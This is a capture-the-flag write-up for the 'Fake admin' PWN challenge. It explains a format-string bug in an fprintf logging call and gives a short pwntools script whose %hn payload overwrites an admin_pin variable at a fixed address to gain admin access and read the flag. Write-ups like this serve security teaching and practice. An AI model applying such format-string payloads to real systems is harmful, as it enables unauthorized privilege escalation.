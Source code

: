 # Fake admin

## PWN - Points: 1000

> Try to bypass our authorization system...
>
> nc task.pase.ca 24081
>
> [fake_admin](fake_admin)
>

The binary lets you write messages, but read messages only when you are an admin. To become an admin, you have to set the variable `admin_pin = 0x133713371338`, without having a normal way to do that. But when writing a message, `fprintf` is used to log a message to a file. This can be exploited by inputting a specially crafted format string that modifies the value. Then you can read all the messages that were appended to log file located at `/tmp/logfile.log` and the flag.

Exploit script:

```python
from pwn import *


p = process('fake_admin')
p.sendline('w')
p.sendline('%4916x    %19$hn' + p64(0x6020B8))
p.sendline('v')
print p.recv()
```

flag: `paseca{f0rm4t_str1ng_ag4in}`